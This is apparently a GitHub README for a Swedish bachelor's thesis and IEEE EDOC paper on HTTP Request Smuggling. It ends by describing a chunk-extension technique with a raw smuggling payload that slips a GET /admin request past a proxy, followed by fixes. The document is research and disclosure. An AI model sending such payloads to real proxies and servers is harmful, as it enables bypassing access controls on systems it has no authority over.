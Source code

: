 # Bachelor's thesis on HTTP Request Smuggling

During the spring of 2021, we (Mattias Grenfeldt and Asta Olofsson) wrote our bachelor's thesis in Computer Science at KTH Royal Institute of Technology in Sweden. We studied HTTP Request Smuggling. The thesis can be found [here](https://urn.kb.se/resolve?urn=urn:nbn:se:kth:diva-302371).

Once all issues found have been fixed by the affected vendors, we will publish here the code used for the test harness, the test requests and which systems are which in the anonymized report.

## IEEE EDOC 2021 paper

The bachelor's thesis was later rewritten into a conference paper with the help of Viktor Engström, and Robert Lagerström. The paper was submitted to [IEEE EDOC 2021](https://ieee-edoc.org/2021/) and got accepted.

## Systems investigated

Here is the de-anonymization of the systems we investigated:

- P3 - ???
- P4 - ???
- P2 - ???
- P5 - ???
- P1 - ???
- P6 - ???
- S1 - [Gunicorn](https://gunicorn.org/)
- S2 - ???
- S3 - ???
- S4 - ???
- S5 - ???
- S6 - ???

## Errata

After the thesis was published, we realized that we had interpreted the situation with `Transfer-Encoding: chunked` and HTTP version 1.0 incorrectly. It was very unclear what a correct interpretation was. So we opened an issue on the specification. [Here](https://github.com/httpwg/http-core/issues/879) is the discussion that followed. This resulted in a change in the specification.

## Chunk extensions technique

After the thesis was published, we discovered another HRS technique. It is in the EDOC paper however. As far as we know, this is a new technique. The technique uses chunk extensions. You can read more about them here:

- https://datatracker.ietf.org/doc/html/rfc7230#section-4.1.1
- https://www.rfc-editor.org/errata/eid4667

Here is how an example request with chunk extensions could look like:

```
GET / HTTP/1.1
Host: localhost
Transfer-Encoding: chunked
 
5 ; a=b
hello
0

```

We found a proxy which parses chunk extensions incorrectly. It reads the chunk size and then reads any character until it encounters a `\n`. It doesn't verify whether there was a CR before the LF.

This could be combined with many of the servers tested since most servers allow any characters as part of the extension (particularly LF) but read the line until they reach CRLF. So we arrive at the following attack (all lines are terminated by CRLF):

```
GET / HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
2;\nxx
4c
0

GET /admin HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
0
```

The proxy will see the two chunks:

```
xx
```
and:
```
0

GET /admin HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
```

While the server will only see one chunk:

```
4c
```

and another request after it.

The fix for the server is to parse the chunk extension according to the RFC and not allow LF characters in it. The fix for the proxy is to verify that there is a CRLF there.
